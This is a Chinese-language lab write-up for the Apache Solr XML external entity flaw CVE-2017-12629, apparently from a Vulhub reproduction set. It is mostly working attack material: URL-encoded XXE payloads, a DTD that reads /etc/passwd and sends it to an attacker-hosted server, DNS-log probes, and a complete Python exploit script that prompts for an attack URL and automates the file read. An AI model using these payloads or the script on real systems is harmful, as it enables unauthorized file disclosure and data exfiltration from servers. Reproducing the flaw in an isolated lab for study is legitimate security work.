 # Apache Solr XML 实体注入漏洞 CVE-2017-12629

## 漏洞描述

漏洞原理与分析可以参考：

- https://www.exploit-db.com/exploits/43009/
- https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境仅测试XXE漏洞，RCE和利用链，可以在 https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE 中查看。

## 漏洞影响

```
Apache Solr < 7.1
Apache Lucene < 7.
```

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

![image-20220301105333970](images/202203011053067.png)

## 漏洞复现

先请求url地址获取 cores 内容：

```
http://your-ip:8983/solr/admin/cores
```

![image-20220301105955851](images/202203011059940.png)



访问dnslog，验证漏洞是否存在（注意这里的`demo`是从上一步中得到的）：

```plain
http://your-ip:8983/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

![image-20220301110437717](images/202203011104795.png)

查看dnslog得到请求，漏洞存在：

![image-20220301110501757](images/202203011105791.png)

在自己的服务器上写入一个可访问的XML文件solr_xxe.dtd，内容写入：

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件：

```plain
http://your-ip:8983/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fyour.domain%2fsolr_xxe.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser

# 解码
/solr/demo/select?&q=<?xml version="1.0" ?><!DOCTYPE root[<!ENTITY % ext SYSTEM "http://your.domain/solr_xxe.dtd">%ext;%ent;]><r>&data;</r>&wt=xml&defType=xmlparser
```

![image-20220301110950324](images/202203011109416.png)

注意这里的payload进行了url编码,请求的文件为`http://your.domain/solr_xxe.dtd`，有更多需求自行更改写入的xml文件。

## 漏洞POC

```
# solr_xxe.dtd

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-

import requests
import sys
import json
import random

def POC_1(target_url):
    core_url = target_url + "solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        print('Core name: ', core_name)
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url):
    dns_payload = """solr/%s/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "%s"><a></a>'}&wt=xml""" % (core_name, dnslog_url)
    vuln_url = target_url + dns_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
        if "HTTP ERROR 500" in response.text:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
        else:
            print("\033[32m[o] 请查看dnslog响应, DNSlog利用Url为：" + vuln_url + "/config\033[0m")
    except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name):
    file_payload = """solr/{}/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fyour.vps.here%2fsolr_xxe.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser""".format(core_name)
    vuln_url = target_url + file_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }

    response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
    if "nologin" in response.text:
        print("\033[32m[o] 漏洞成功利用, Url为：/config\033[0m \n", vuln_url )
        print("\033[32m[o] 响应为: \n \033[0m",response.text)
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)   
    dnslog_url = 'http://{}.your.dnslog.here'.format(core_name)
    POC_2(target_url, core_name, dnslog_url)
    POC_3(target_url, core_name)
```

![image-20220210161443057](images/202203011056712.png)

